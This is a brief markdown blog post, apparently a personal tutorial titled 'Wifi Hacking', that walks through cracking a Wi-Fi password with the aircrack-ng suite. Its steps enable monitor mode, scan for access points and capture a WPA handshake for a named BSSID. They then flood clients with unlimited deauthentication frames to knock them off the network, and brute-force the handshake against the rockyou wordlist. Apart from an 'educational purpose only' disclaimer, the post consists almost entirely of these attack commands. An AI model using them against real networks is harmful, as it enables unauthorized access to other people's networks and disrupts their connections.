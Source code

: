 ```yaml
---
layout: post
title: Wifi Hacking
---
```


**_Disclaimer: This is for educational purpose only, please try in your own environment_**
*Alfa-card is mandatory to search/scan for available Networks*

Steps:
**Connect alfa-card and check the Interfaces**

    ipconfig/iwconfig - This you will give the wlan0 interface

**Start Monitor Mode**

    airmon-ng start wlan0

**Verify its Monitor Mode**

    airmon-ng/iwconfig

**Now Scan/Check for Nearby Available Networks**

    airodump-ng wlan0mon
  
The above command this will display or show list of available networks and make sure you capture and keep a note of AP's MAC address(BSSID) and channel
*AccessPoint(AP)*

**After getting BSSID and Channel id
Start Capturing the Handshake and Attack the same Time or after 5min.**

    airodump-ng -w test -c 11 --bssid BE:A5:8B:65:F8:FE wlan0mon - to capture the Handshake

    aireplay-ng --deauth 0 -a BE:A5:8B:65:F8:FE wlan0mon - to attack the network

**-w to save a file** 

**Now Stop the Monitormode and brute force the captured handshake**

    airmon-ng stop wlan0mon

**Bruteforce the saved file with the wordlists to crack the password**

    aircrack-ng test.cap -w /usr/share/wordlists/rockyou.txt 
